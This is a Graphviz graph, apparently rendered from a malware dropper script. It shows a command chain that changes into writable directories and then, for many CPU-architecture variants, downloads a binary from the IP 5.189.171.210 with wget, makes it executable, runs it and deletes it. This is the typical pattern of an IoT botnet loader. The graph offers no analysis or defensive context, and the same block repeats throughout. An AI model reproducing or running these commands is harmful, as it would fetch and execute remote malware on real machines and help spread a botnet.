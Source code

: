 digraph {
306 [label="cd /tmp "];
306 -> 306
308 [label="cd /var/run "];
308 -> 310 [label="||,"];
310 [label="cd /mnt "];
310 -> 312 [label="||,"];
312 [label="cd /root "];
312 -> 314 [label="||,"];
314 [label="cd / "];
314 -> 10 [label="||,"];
10 [label="wget http://5.189.171.210/arcms "];
10 -> 12 [label=";,"];
12 [label="chmod +x arcms "];
12 -> 14 [label=";,"];
14 [label="./arcms "];
14 -> 16 [label=";,"];
16 [label="rm -rf arcms "];
16 -> 306 [label=";,"];
306 [label="cd /tmp "];
306 -> 306
308 [label="cd /var/run "];
308 -> 310 [label="||,"];
310 [label="cd /mnt "];
310 -> 312 [label="||,"];
312 [label="cd /root "];
312 -> 314 [label="||,"];
314 [label="cd / "];
314 -> 28 [label="||,"];
28 [label="wget http://5.189.171.210/arcml "];
28 -> 30 [label=";,"];
30 [label="chmod +x arcml "];
30 -> 32 [label=";,"];
32 [label="./arcml "];
32 -> 34 [label=";,"];
34 [label="rm -rf arcml "];
34 -> 306 [label=";,"];
306 [label="cd /tmp "];
306 -> 306
308 [label="cd /var/run "];
308 -> 310 [label="||,"];
310 [label="cd /mnt "];
310 -> 312 [label="||,"];
312 [label="cd /root "];
312 -> 314 [label="||,"];
314 [label="cd / "];
314 -> 46 [label="||,"];
46 [label="wget http://5.189.171.210/arc4t "];
46 -> 48 [label=";,"];
48 [label="chmod +x arc4t "];
48 -> 50 [label=";,"];
50 [label="./arc4t "];
50 -> 52 [label=";,"];
52 [label="rm -rf arc4t "];
52 -> 306 [label=";,"];
306 [label="cd /tmp "];
306 -> 306
308 [label="cd /var/run "];
308 -> 310 [label="||,"];
310 [label="cd /mnt "];
310 -> 312 [label="||,"];
312 [label="cd /root "];
312 -> 314 [label="||,"];
314 [label="cd / "];
314 -> 64 [label="||,"];
64 [label="wget http://5.189.171.210/arc4l "];
64 -> 66 [label=";,"];
66 [label="chmod +x arc4l "];
66 -> 68 [label=";,"];
68 [label="./arc4l "];
68 -> 70 [label=";,"];
70 [label="rm -rf arc4l "];
70 -> 306 [label=";,"];
306 [label="cd /tmp "];
306 -> 306
308 [label="cd /var/run "];
308 -> 310 [label="||,"];
310 [label="cd /mnt "];
310 -> 312 [label="||,"];
312 [label="cd /root "];
312 -> 314 [label="||,"];
314 [label="cd / "];
314 -> 82 [label="||,"];
82 [label="wget http://5.189.171.210/arc5l "];
82 -> 84 [label=";,"];
84 [label="chmod +x arc5l "];
84 -> 86 [label=";,"];
86 [label="./arc5l "];
86 -> 88 [label=";,"];
88 [label="rm -rf arc5l "];
88 -> 306 [label=";,"];
306 [label="cd /tmp "];
306 -> 306
308 [label="cd /var/run "];
308 -> 310 [label="||,"];
310 [label="cd /mnt "];
310 -> 312 [label="||,"];
312 [label="cd /root "];
312 -> 314 [label="||,"];
314 [label="cd / "];
314 -> 100 [label="||,"];
100 [label="wget http://5.189.171.210/arc6l "];
100 -> 102 [label=";,"];
102 [label="chmod +x arc6l "];
102 -> 104 [label=";,"];
104 [label="./arc6l "];
104 -> 106 [label=";,"];
106 [label="rm -rf arc6l "];
106 -> 306 [label=";,"];
306 [label="cd /tmp "];
306 -> 306
308 [label="cd /var/run "];
308 -> 310 [label="||,"];
310 [label="cd /mnt "];
310 -> 312 [label="||,"];
312 [label="cd /root "];
312 -> 314 [label="||,"];
314 [label="cd / "];
314 -> 118 [label="||,"];
118 [label="wget http://5.189.171.210/arc7l "];
118 -> 120 [label=";,"];
120 [label="chmod +x arc7l "];
120 -> 122 [label=";,"];
122 [label="./arc7l "];
122 -> 124 [label=";,"];
124 [label="rm -rf arc7l "];
124 -> 306 [label=";,"];
306 [label="cd /tmp "];
306 -> 306
308 [label="cd /var/run "];
308 -> 310 [label="||,"];
310 [label="cd /mnt "];
310 -> 312 [label="||,"];
312 [label="cd /root "];
312 -> 314 [label="||,"];
314 [label="cd / "];
314 -> 136 [label="||,"];
136 [label="wget http://5.189.171.210/arcsh "];
136 -> 138 [label=";,"];
138 [label="chmod +x arcsh "];
138 -> 140 [label=";,"];
140 [label="./arcsh "];
140 -> 142 [label=";,"];
142 [label="rm -rf arcsh "];
142 -> 306 [label=";,"];
306 [label="cd /tmp "];
306 -> 306
308 [label="cd /var/run "];
308 -> 310 [label="||,"];
310 [label="cd /mnt "];
310 -> 312 [label="||,"];
312 [label="cd /root "];
312 -> 314 [label="||,"];
314 [label="cd / "];
314 -> 154 [label="||,"];
154 [label="wget http://5.189.171.210/arcpc "];
154 -> 156 [label=";,"];
156 [label="chmod +x arcpc "];
156 -> 158 [label=";,"];
158 [label="./arcpc "];
158 -> 160 [label=";,"];
160 [label="rm -rf arcpc "];
160 -> 306 [label=";,"];
306 [label="cd /tmp "];
306 -> 306
308 [label="cd /var/run "];
308 -> 310 [label="||,"];
310 [label="cd /mnt "];
310 -> 312 [label="||,"];
312 [label="cd /root "];
312 -> 314 [label="||,"];
314 [label="cd / "];
314 -> 172 [label="||,"];
172 [label="wget http://5.189.171.210/arc440 "];
172 -> 174 [label=";,"];
174 [label="chmod +x arc440 "];
174 -> 176 [label=";,"];
176 [label="./arc440 "];
176 -> 178 [label=";,"];
178 [label="rm -rf arc440 "];
178 -> 306 [label=";,"];
306 [label="cd /tmp "];
306 -> 306
308 [label="cd /var/run "];
308 -> 310 [label="||,"];
310 [label="cd /mnt "];
310 -> 312 [label="||,"];
312 [label="cd /root "];
312 -> 314 [label="||,"];
314 [label="cd / "];
314 -> 190 [label="||,"];
190 [label="wget http://5.189.171.210/arcm68 "];
190 -> 192 [label=";,"];
192 [label="chmod +x arcm68 "];
192 -> 194 [label=";,"];
194 [label="./arcm68 "];
194 -> 196 [label=";,"];
196 [label="rm -rf arcm68 "];
196 -> 306 [label=";,"];
306 [label="cd /tmp "];
306 -> 306
308 [label="cd /var/run "];
308 -> 310 [label="||,"];
310 [label="cd /mnt "];
310 -> 312 [label="||,"];
312 [label="cd /root "];
312 -> 314 [label="||,"];
314 [label="cd / "];
314 -> 208 [label="||,"];
208 [label="wget http://5.189.171.210/arcsprc "];
208 -> 210 [label=";,"];
210 [label="chmod +x arcsprc "];
210 -> 212 [label=";,"];
212 [label="./arcsprc "];
212 -> 214 [label=";,"];
214 [label="rm -rf arcsprc "];
214 -> 306 [label=";,"];
306 [label="cd /tmp "];
306 -> 306
308 [label="cd /var/run "];
308 -> 310 [label="||,"];
310 [label="cd /mnt "];
310 -> 312 [label="||,"];
312 [label="cd /root "];
312 -> 314 [label="||,"];
314 [label="cd / "];
314 -> 226 [label="||,"];
226 [label="wget http://5.189.171.210/arc32 "];
226 -> 228 [label=";,"];
228 [label="chmod +x arc32 "];
228 -> 230 [label=";,"];
230 [label="./arc32 "];
230 -> 232 [label=";,"];
232 [label="rm -rf arc32 "];
232 -> 306 [label=";,"];
306 [label="cd /tmp "];
306 -> 306
308 [label="cd /var/run "];
308 -> 310 [label="||,"];
310 [label="cd /mnt "];
310 -> 312 [label="||,"];
312 [label="cd /root "];
312 -> 314 [label="||,"];
314 [label="cd / "];
314 -> 244 [label="||,"];
244 [label="wget http://5.189.171.210/arc38 "];
244 -> 246 [label=";,"];
246 [label="chmod +x arc38 "];
246 -> 248 [label=";,"];
248 [label="./arc38 "];
248 -> 250 [label=";,"];
250 [label="rm -rf arc38 "];
250 -> 306 [label=";,"];
306 [label="cd /tmp "];
306 -> 306
308 [label="cd /var/run "];
308 -> 310 [label="||,"];
310 [label="cd /mnt "];
310 -> 312 [label="||,"];
312 [label="cd /root "];
312 -> 314 [label="||,"];
314 [label="cd / "];
314 -> 262 [label="||,"];
262 [label="wget http://5.189.171.210/arc48 "];
262 -> 264 [label=";,"];
264 [label="chmod +x arc48 "];
264 -> 266 [label=";,"];
266 [label="./arc48 "];
266 -> 268 [label=";,"];
268 [label="rm -rf arc48 "];
268 -> 306 [label=";,"];
306 [label="cd /tmp "];
306 -> 306
308 [label="cd /var/run "];
308 -> 310 [label="||,"];
310 [label="cd /mnt "];
310 -> 312 [label="||,"];
312 [label="cd /root "];
312 -> 314 [label="||,"];
314 [label="cd / "];
314 -> 280 [label="||,"];
280 [label="wget http://5.189.171.210/arc58 "];
280 -> 282 [label=";,"];
282 [label="chmod +x arc58 "];
282 -> 284 [label=";,"];
284 [label="./arc58 "];
284 -> 286 [label=";,"];
286 [label="rm -rf arc58 "];
286 -> 306 [label=";,"];
306 [label="cd /tmp "];
306 -> 306
308 [label="cd /var/run "];
308 -> 310 [label="||,"];
310 [label="cd /mnt "];
310 -> 312 [label="||,"];
312 [label="cd /root "];
312 -> 314 [label="||,"];
314 [label="cd / "];
314 -> 298 [label="||,"];
298 [label="wget http://5.189.171.210/arc64 "];
298 -> 300 [label=";,"];
300 [label="chmod +x arc64 "];
300 -> 302 [label=";,"];
302 [label="./arc64 "];
302 -> 304 [label=";,"];
304 [label="rm -rf arc64 "];
304 -> 306 [label=";,"];
306 [label="cd /tmp "];
306 -> 306
308 [label="cd /var/run "];
308 -> 310 [label="||,"];
310 [label="cd /mnt "];
310 -> 312 [label="||,"];
312 [label="cd /root "];
312 -> 314 [label="||,"];
314 [label="cd / "];
314 -> 316 [label="||,"];
316 [label="wget http://5.189.171.210/arc68 "];
316 -> 318 [label=";,"];
318 [label="chmod +x arc68 "];
318 -> 320 [label=";,"];
320 [label="./arc68 "];
320 -> 322 [label=";,"];
322 [label="rm -rf arc68 "];
322 -> 323 [label=";,"];
}
